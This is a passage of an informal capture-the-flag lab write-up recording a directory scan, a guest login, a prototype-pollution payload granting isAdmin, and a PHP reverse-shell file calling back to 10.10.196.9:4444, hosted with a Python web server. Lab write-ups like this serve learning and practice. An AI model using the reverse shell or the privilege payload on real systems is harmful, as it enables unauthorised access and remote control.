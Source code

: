```BASH
===============================================================
/.html                (Status: 403) [Size: 281]
/.htm                 (Status: 403) [Size: 281]
/.php                 (Status: 403) [Size: 281]
/index.php            (Status: 200) [Size: 1611]
/login.php            (Status: 200) [Size: 2044]
/templates            (Status: 301) [Size: 327] [--> http://10.10.102.230:50000/templates/]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/uploads              (Status: 301) [Size: 325] [--> http://10.10.102.230:50000/uploads/]
/api.php              (Status: 500) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/auth.php             (Status: 200) [Size: 0]
/dashboard.php        (Status: 302) [Size: 1225] [--> login.php]
/phpmyadmin           (Status: 403) [Size: 281]
Progress: 615082 / 1964484 (31.31%)
```

It's look like we have nothing interesting here.

On the port 4000 we can logging with the `guest:guest`

![[Pasted image 20250317190733.png]]

We can probabely make a #PrototypePollution

## 2. **Weaponization

For the port 4000  we want to make a #PrototypePollution with the vallue `isAdmin: false`

```javascript
{ "__proto__": { "isAdmin": true } } 
```

We make a reverse shell in shell.php

```PHP
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.196.9/4444 0>&1'"); ?>
```

We make a server with python 

```python
python3 -m http.server 1234
```
## 3. **Delivery

## 4. **Exploitation

The #PrototypePollution doesn't work but :

![[Pasted image 20250317191657.png]]

Whene we Enter the value :
isAdmin and true for the value,  the system make a write-up. So now we are admin.
